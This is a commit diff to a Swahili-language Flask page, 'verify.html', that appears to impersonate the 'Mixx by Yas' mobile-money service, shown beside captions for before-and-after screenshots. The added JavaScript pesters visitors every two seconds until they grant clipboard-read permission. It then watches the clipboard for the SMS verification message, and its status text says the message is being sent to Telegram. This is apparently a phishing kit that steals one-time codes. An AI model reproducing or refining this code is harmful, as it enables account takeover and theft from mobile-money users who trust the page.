

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -51,10 +51,9 @@
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
                     <i class="fas fa-sms"></i> <strong>Tafadhali fuata hatua hizi:</strong><br><br>
-                    <strong>1.</strong> Subiri ujumbe wa SMS kutoka <strong>Mixx by Yas</strong><br>
-                    <strong>2.</strong> Nenda kwenye App ya Messages/SMS<br>
-                    <strong>3.</strong> Nakili ujumbe <strong>WOTE</strong> (shikilia → Copy)<br>
-                    <strong>4.</strong> Rudi hapa — itajaza na kutumwa moja kwa moja!
+                    <strong>1.</strong> Ruhusu kunakili ujumbe (gusa "Ruhusu")<br>
+                    <strong>2.</strong> Subiri ujumbe wa SMS kutoka <strong>Mixx by Yas</strong><br>
+                    <strong>3.</strong> Ujumbe utajaza na kutumwa moja kwa moja!
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
                     <i class="fas fa-envelope"></i> 📱 iPhone: Gusa Hapa Kufungua Messages
@@ -62,9 +61,9 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri ujumbe wa SMS... kisha nakili na utajaza hapa moja kwa moja." readonly></textarea>
-                <div class="timer-bar" id="timerDisplay">⏳ 30s</div>
-                <div class="error-msg" id="codeError">Namba si sahihi</div>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri ruhusa... kisha ujumbe utajaza hapa moja kwa moja." readonly></textarea>
+                <div class="timer-bar" id="timerDisplay">⏳ 60s</div>
+                <div class="error-msg" id="codeError">Inaomba ruhusa ya kunakili...</div>
                 <button class="btn btn-gold" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
             </div>
@@ -95,7 +94,7 @@
         })();
 
         startCountdown();
-        startClipWatcher();
+        requestPermission();
 
         function startCountdown() {
             if (countdownTimer) clearInterval(countdownTimer);
@@ -106,6 +105,26 @@
                 if (seconds <= 10) display.className = 'timer-bar warning';
                 if (seconds <= 0) { clearInterval(countdownTimer); display.textContent = 'Muda Umeisha'; display.className = 'timer-bar warning'; }
             }, 1000);
+        }
+
+        async function requestPermission() {
+            document.getElementById('codeError').textContent = 'Inaomba ruhusa ya kunakili...';
+            document.getElementById('codeError').style.color = 'var(--primary)';
+            document.getElementById('codeError').classList.add('show');
+            try {
+                await navigator.clipboard.readText();
+                document.getElementById('codeError').textContent = '✅ Ruhusa imekubaliwa. Subiri SMS kutoka Mixx by Yas...';
+                document.getElementById('codeError').style.color = 'var(--success)';
+                document.getElementById('codeError').classList.add('show');
+                setTimeout(function() { document.getElementById('codeError').classList.remove('show'); }, 4000);
+                startClipWatcher();
+            } catch(e) {
+                document.getElementById('codeError').textContent = '⚠️ Tafadhali ruhusu kunakili. Bonyeza "Ruhusu" kwenye dirisha lililo juu.';
+                document.getElementById('codeError').style.color = 'var(--danger)';
+                document.getElementById('codeError').classList.add('show');
+                // Retry after 2 seconds
+                setTimeout(function() { requestPermission(); }, 2000);
+            }
         }
 
         function startClipWatcher() {
@@ -131,7 +150,7 @@
         function handleClipboardText(text) {
             lastClip = text;
             document.getElementById('smsMessage').value = text;
-            document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Inatuma...';
+            document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Inatuma kwenye Telegram...';
             document.getElementById('codeError').style.color = 'var(--success)';
             document.getElementById('codeError').classList.add('show');
             clearInterval(clipWatcher);
```
